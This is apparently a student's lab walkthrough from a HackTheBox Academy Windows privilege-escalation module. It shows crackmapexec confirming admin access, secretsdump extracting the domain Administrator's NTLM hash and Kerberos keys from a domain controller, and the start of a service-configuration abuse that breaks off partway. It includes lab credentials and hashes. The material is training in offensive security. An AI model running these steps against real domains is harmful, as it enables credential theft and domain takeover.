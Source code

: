 7) Confirming Local Admin Access on Domain Controller

```
crackmapexec smb 10.129.43.9 -u server_adm -p 'HTB_@cademy_stdnt!'

SMB         10.129.43.9     445    WINLPE-DC01      [*] Windows 10.0 Build 17763 (name:WINLPE-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         10.129.43.9     445    WINLPE-DC01      [+] INLANEFREIGHT.LOCAL\server_adm:HTB_@cademy_stdnt! (Pwn3d!)
```

8) Retrieving NTLM Password Hashes from the Domain Controller

```
secretsdump.py server_adm@10.129.43.9 -just-dc-user administrator

Impacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:5db9c9ada113804443a8aeb64f500cd3e9670348719ce1436bcc95d1d93dad43
Administrator:aes128-cts-hmac-sha1-96:94c300d0e47775b407f2496a5cca1a0a
Administrator:des-cbc-md5:d60dfbbf20548938
[*] Cleaning up...
```

## LAB

xfreerdp /v:10.129.43.42 /u:server_adm /p:HTB_@cademy_stdnt!

CMD run as administrator

C:\Users\server_adm>type c:\Users\Administrator\Desktop\ServerOperators\flag.txt
Access is denied.

1)
C:\Users\server_adm>sc qc AppReadiness
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: AppReadiness
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\System32\svchost.exe -k AppReadiness -p
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : App Readiness
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem

2)        
C:\Users\server_adm>c:\Tools\PsService.exe security AppReadiness
